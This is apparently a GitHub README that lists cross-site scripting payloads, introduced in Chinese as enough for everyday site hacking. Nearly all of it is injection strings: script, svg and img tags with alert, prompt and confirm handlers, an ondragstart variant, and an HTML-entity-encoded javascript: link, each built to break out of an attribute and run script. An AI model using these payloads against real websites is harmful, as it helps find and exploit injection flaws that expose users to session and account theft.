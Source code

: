 # XSS-Payload
日常日站够用，XSS Payload

"><svg>< img src=x onerror=alert(1)>
  
"><script>prompt(1)</script>

"><script>confirm(1)</script>

"><IMG SRC=X ondragstart=alert'1'>
  
# "><a href=&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#49&#41>1</a>'"

:-->'"><script>alert(1)</script>:and
